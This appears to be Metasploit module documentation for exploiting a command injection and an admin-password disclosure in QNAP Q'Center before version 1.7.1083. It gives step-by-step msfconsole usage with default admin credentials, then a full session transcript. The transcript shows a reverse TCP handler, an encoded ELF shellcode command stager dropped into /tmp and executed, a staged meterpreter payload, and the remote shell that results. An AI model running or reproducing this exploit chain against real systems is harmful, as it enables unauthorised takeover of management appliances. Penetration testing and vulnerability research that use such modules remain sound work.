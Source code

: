 ## Description

  This module exploits a command injection vulnerability in the
  `change_passwd` API method within the web interface of QNAP Q'Center
  virtual appliance versions prior to 1.7.1083.

  The vulnerability allows the `admin` privileged user account to
  execute arbitrary commands as the `admin` operating system user.

  Valid credentials for the `admin` user account are required, however,
  this module also exploits a separate password disclosure issue which
  allows any authenticated user to view the password set for the `admin`
  user during first install.


## Vulnerable Application
 
  [QNAP Q'Center](https://www.qnap.com/solution/qcenter/index.php) is a central
  management platform that enables you to consolidate the management of multiple
  QNAP NAS devices.

  This module has been tested successfully on QNAP Q'Center appliance
  version 1.6.1075.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/http/qnap_qcenter_change_passwd_exec`
  3. `set RHOSTS <IP>`
  4. `set USERNAME <USERNAME>` (default: `admin`)
  5. `set PASSWORD <PASSWORD>` (default: `admin`)
  6. `run`
  7. You should get a session


## Options

### USERNAME

  Username for the application. (default: `admin`)

### PASSWORD

  Password for the application. (default: `admin`)


## Scenarios

  ```
  msf > use exploit/linux/http/qnap_qcenter_change_passwd_exec 
  msf exploit(linux/http/qnap_qcenter_change_passwd_exec) > set rhosts 10.1.1.112
  rhosts => 10.1.1.112
  msf exploit(linux/http/qnap_qcenter_change_passwd_exec) > set verbose true
  verbose => true
  msf exploit(linux/http/qnap_qcenter_change_passwd_exec) > check
  
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [*] 10.1.1.112:443 The target appears to be vulnerable.
  msf exploit(linux/http/qnap_qcenter_change_passwd_exec) > run
  
  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [+] Authenticated as user 'admin' successfully
  [*] Sending payload ...
  [*] Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\317\\0\\0\\0\\112\\1\\0\\0\\7\\0\\0\\0\\0\\20\\0\\0\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150\\12\\1\\1\\305\\150\\2\\0\\21\\134\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300\\170\\20\\133\\211\\341\\231\\266\\14\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/ivFxR ; chmod +x /tmp/ivFxR ; /tmp/ivFxR ; rm -f /tmp/ivFxR"]
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 10.1.1.112
  [*] Command Stager progress - 100.00% done (701/701 bytes)
  
  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > sysinfo
  Computer     : 10.1.1.112
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```


